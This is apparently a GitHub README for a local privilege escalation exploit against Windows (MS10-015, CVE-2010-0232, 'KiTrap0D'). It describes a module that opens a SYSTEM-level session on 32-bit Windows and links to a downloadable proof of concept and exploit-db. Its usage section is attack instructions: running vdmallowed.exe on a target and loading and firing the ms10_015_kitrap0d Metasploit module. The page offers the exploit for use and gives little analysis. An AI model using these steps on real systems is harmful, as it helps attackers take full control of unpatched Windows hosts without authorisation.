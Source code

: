 # MS10-015

```
This module will create a new session with SYSTEM privileges via the KiTrap0D exlpoit by Tavis Ormandy. 
If the session is use is already elevated then the exploit will not run. 
The module relies on kitrap0d.x86.dll, and is not supported on x64 editions of Windows.
```
- The POC was from [@Offensive Security](https://github.com/offensive-security/exploit-database-bin-sploits/raw/master/sploits/11199.zip)

Vulnerability reference:
 * [MS10-015](https://technet.microsoft.com/en-us/library/security/ms10-015.aspx)
 * [CVE-2010-0232](https://www.exploit-db.com/exploits/11199/)
 
## Usage
c:\\> vdmallowed.exe

![win2003](win2003.png)

## load the module within the Metasploit console
```
msf > use exploit/windows/local/ms10_015_kitrap0d
msf exploit(ms10_015_kitrap0d) > show targets
    ...targets...
msf exploit(ms10_015_kitrap0d) > set TARGET <target-id>
msf exploit(ms10_015_kitrap0d) > show options
    ...show and set options...
msf exploit(ms10_015_kitrap0d) > exploit
    
```


# Reference
- [http://www.7kb.org/520.html](http://www.7kb.org/520.html)  


